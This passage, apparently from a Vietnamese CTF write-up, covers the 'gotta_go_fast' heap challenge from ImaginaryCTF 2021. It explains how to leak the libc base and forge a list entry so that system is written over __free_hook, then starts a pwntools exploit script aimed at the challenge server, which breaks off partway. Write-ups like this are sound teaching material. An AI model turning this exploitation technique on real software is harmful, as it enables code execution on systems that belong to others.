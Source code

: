 ```
                run();
                break;
            case 4:
                diagnostics();
                break;
            default:
                abort(); // Shouldn't happen anyway
        }
    }
}
```
Vì có source code nên ta có thể thấy chức năng của các hàm khá rõ ràng nên mình sẽ không giải thích lại.

### Khai thác:
Ở bài này ta có thể sử dụng fastbin attack nhưng cách mình thì sẽ lợi dụng 1 số bug logic của file ko cần exploit bin. Các bạn có tham khảo cách fastbin attack của bạn pivik ở đây: https://pivikk.github.io/2021-07-27-imaginaryctf2021/. 

Tại hàm diagnostics ta sẽ leak dc libc base tại đây.

Tại hàm undraft ta có thể nhập 1 idx từ 0 ->  INT_MAX để free. Sau tại hàm list_remove sau khi free tại tributes[idx] ta chọn sau đó nó tiến hành hoán đổi vị trí ta vừa free với vị trị tương ứng tại tributes[in_use-1]. Mình sẽ lợi dùng điều này để tạo ra fake TributeList->next mà ta có thể nhập vào giá trị mà ta mong muốn. Tại fake TributeList mình sẽ cho Fake_TributeList->in_use = 100 , Fake_TributeList->next = &__free_hook,  Fake_Tribute->tributes[0] = system. Vậy khi ta gọi undraft bằng với idx = 100 tức vị trí của system, ta sẽ ghi dc địa chỉ của hàm system vào __free_hook

### Code exploit:
```
from pwn import *
import os 
import sys


LIBCSEVER = './libc6_2.23-0ubuntu11.2_amd64.so'
LIBCLOCAL = '/lib/x86_64-linux-gnu/libc.so.6'
BINARY = './gotta_go_fast'
HOST = "chal.imaginaryctf.org"
PORT = 42009



if sys.argv[1] == "1":
    p = process(BINARY)
    elf = ELF(BINARY)
    libc = ELF(LIBCLOCAL)
elif sys.argv[1] == "2":
    p = remote(HOST,PORT)
    elf = ELF(BINARY)
    libc = ELF(LIBCSEVER)
else:
    p = process(BINARY)
    elf = ELF(BINARY)
    libc = ELF(LIBCLOCAL)


def Draft(district, index_in_district, data):
    p.sendlineafter("> ", str(0))
    p.sendlineafter("> ",str(district))
    p.sendlineafter("> ",str(index_in_district))
    p.sendlineafter("Least importantly, what's their name?\n",data)
def UnDraft(idx):
    p.sendlineafter("> ", str(1))
```